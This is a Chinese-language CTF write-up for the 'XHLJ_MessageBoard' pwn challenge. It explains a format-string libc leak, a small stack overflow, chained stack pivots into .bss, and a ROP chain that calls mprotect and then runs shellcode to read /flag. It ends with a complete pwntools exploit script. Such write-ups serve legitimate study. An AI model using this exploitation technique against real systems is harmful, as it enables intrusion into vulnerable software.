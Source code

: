 ```yaml
---
title: XHLJ_MessageBoard
date: 2023-03-01 09:17:56
tags:
- ROP
- 栈迁移
- orw
- sandbox
categories:
- pwn_wp
---
```


一道栈的题目，开了沙箱，需要通过栈溢出利用代码片段进行连续的栈迁移来写入ROP链并跳转执行ROP链。

<!--more-->

保护只开了NX。

```sh
[*] '/home/alphonse/CTF_GAME/XHLJ/MessageBoard/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

看看沙箱，禁用了`execve()`

```sh
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```

程序的漏洞点比较明显，有一个格式化字符串和一个0x10byte的栈溢出

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  char buf[8]; // [rsp+0h] [rbp-C0h] BYREF
  char dest[8]; // [rsp+8h] [rbp-B8h] BYREF
  char v7[176]; // [rsp+10h] [rbp-B0h] BYREF

  init();
  if ( !welcome_count )
  {
    strcpy(dest, "Hello, ");
    puts("Welcome to DASCTF message board, please leave your name:");
    read(0, buf, 8uLL);
    welcome_count = 1;
  }
  v3 = strcat(dest, buf);
  printf(v3);                                   // 格式化字符串
  puts("Now, please say something to DASCTF:");
  read(0, v7, 192uLL);                          // 溢出0x10byte
  puts("Posted Successfully~");
  return 0LL;
}
```

格式化字符串漏洞可以用于leak libcbase或者栈地址。但我们只能输入8byte，因此如果偏移大于10的话，我们只能泄露出一个地址。经过调试可以发现libc地址在**偏移为24**的位置，因此只能泄露栈地址或者libc地址。

如果只泄露栈地址的话，栈迁移回到缓冲区开头处后，由于不知道libcbase，因此利用不了libc中的函数，并且由于NX保护开启，无法ret2shellcode。所以只能选择泄露libc地址，**栈迁移到bss段后走ROP链**。

但接下来就会遇到一个问题，在输入了一次之后程序就结束了，程序中没有直接将ROP链写入bss段，但我们可以**利用主程序中read的代码片段**进行写入，read的代码片段如下：

```asm
.text:0000000000401378 48 8D 85 50 FF FF FF          lea     rax, [rbp+var_B0] var_B0=-0xb0
.text:000000000040137F BA C0 00 00 00                mov     edx, 0C0h                       ; nbytes
.text:0000000000401384 48 89 C6                      mov     rsi, rax                        ; buf
.text:0000000000401387 BF 00 00 00 00                mov     edi, 0                          ; fd
.text:000000000040138C E8 8F FD FF FF                call    _read
```

这里是主程序中调用read函数的片段，在这里对寄存器进行设置并调用read。可以看到rsi是通过`mov rsi, rax`来赋值的，而rax是通过`lea rax, [rbp+0xb0] %算出rbp-0xb0后赋值给rax `来赋值。而栈迁移的时候我们会将rbp设置在bss段上，因此如果我们将返回地址覆盖为`0x401378`那么就会执行`read(0,bss_addr-0xb0,0xc0)`，通过这次读入我们可以将ROP链写到bss段中。

读取ROP链后，rbp指向`bss_addr`，在read完成后的`leave;ret`会将栈迁移到`bss_addr`，并且执行`bss_addr+0x8`处的指令。然而这个位置已经是read读入内容的末尾了，因此需要再次通过栈迁移将栈迁移到read读入内容的开头。这需要让`bss_addr`处的内容为`bss_addr-xxx(读入内容开头的ROP链的位置-0x8)`，使`bss_addr+0x8`处的内容为`leave;ret`。这次会将栈迁移到ROP链处并执行。

ROP链走`mprotect->read->shellcraft.cat('/flag')`来cat flag，当然也可以走`orw`。

exp如下:

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn'
elf=ELF('./'+filename)
# libc=ELF('./2.31-0ubuntu9.7_amd64/libc.so.6')
libc=ELF('./libc.so.6') # remote
p=process('./'+filename)
# p=remote('tcp.cloud.dasctf.com',24407)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()


ru("Welcome to DASCTF message board, please leave your name:\n")
payload='%24$p'

# debug()
sl(payload)

ru('Hello, ')
libcbase=int(ru('\n')[2:],16)-0x1f12e8
leak('libcbase',hex(libcbase))
# debug()


leave=0x4013A2
ret_addr = libcbase + 0x0000000000022679 
pop_rdi=libcbase+0x0000000000023b6a
pop_rsi=libcbase+0x000000000002601f 
pop_rdx=libcbase+0x0000000000142c92 
read_addr = libcbase + libc.sym['read']
mprotect_addr = libcbase + libc.sym['mprotect']
bss_addr=0x404300
vuln=0x0000000000401378

payload=b'a'*176+p64(bss_addr)+p64(vuln)
debug()
s(payload)

# debug()
payload=b'a'*0x10
payload+=p64(ret_addr) 
payload+=p64(pop_rdi) + p64(0x404000)
payload+=p64(pop_rsi) + p64(0x1000)
payload+=p64(pop_rdx) + p64(7)
payload+=p64(mprotect_addr)

payload+=p64(pop_rdi) + p64(0)
payload+=p64(pop_rsi) + p64(0x404500)
payload+=p64(pop_rdx) + p64(0x100)
payload+=p64(read_addr)
payload+=p64(0x404500)
payload=payload.ljust(0xb0,b'\x00')
payload+=p64(bss_addr-0xb0+0x10)+p64(leave)
s(payload)


payload = asm(shellcraft.cat("/flag"))
s(payload)
leak('libcbase',hex(libcbase))
# sleep(0.1)
itr()
```



